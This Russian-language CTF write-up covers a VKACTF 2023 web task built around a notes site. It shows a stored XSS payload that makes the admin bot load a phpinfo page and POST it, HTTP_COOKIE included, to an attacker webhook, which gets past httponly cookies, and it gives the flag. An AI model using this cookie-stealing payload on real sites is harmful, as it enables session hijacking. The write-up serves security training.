 ## Заметки доктора Эггмана

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2023 | Заметки доктора Эггмана | Web | Easy |

### Описание

> Автор: Po4est
>
> Соник вновь противостоит доктору Эггману. На этот раз он нашел его ежедневник с заметками, но прочитать его не смог. Помоги Сонику узнать, что затевает этот негодяй!!!

### Уязвимость

> [XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

### Решение
![](images/menu.jpg)

Нам предоставлен веб сайт, с возможностью оставлять заметки.

Уязвимость возникает в поле создания заметок, из-за небезопасной обработки введенного текста.

Обычно, на всех сайтах присутствует файл robots.txt, переядя на него, видим ручку /info.php

![](images/robots.jpg)

Так как куки на сайте имеют флажок httponly, через js их украсть не полуится, но, если мы перейдем на ручку /info.php, сможем увидеть phpinfo(), который отображает переменные окружения и имеет переменную HTTP_COOKIE, с помощью которой мы и украдем куки админа.

![](images/httpcookie.jpg)

Теперь можем приступать к написанию нагрузки, нам нужно, чтобы бот зашел на /info.php и отправил содержимое страницы нам на вебхук.
Создаем заметку с вот такой нагрузкой.
```
<script>
fetch('http://TASK_IP/info.php')
  .then(response => response.text())
  .then(data => {
    fetch('https://webhook', {
      method: 'POST',
      body: data
    });
  });
</script>
```
На сайте реализована возможность открыть пост по его id.

Дело за малым. Отправляем ссылку на наш пост с нагрузкой боту и получаем данные на вебхук.

![](images/webhook.jpg)

После получения кук админа, просто подменяем их у себя в браузере, обновляем страницу, и вуаля, флаг у нас.

### Флаг

```
vka{I_1ik3_7o_r3ad_o7h3r_p3op13's_no73s}
```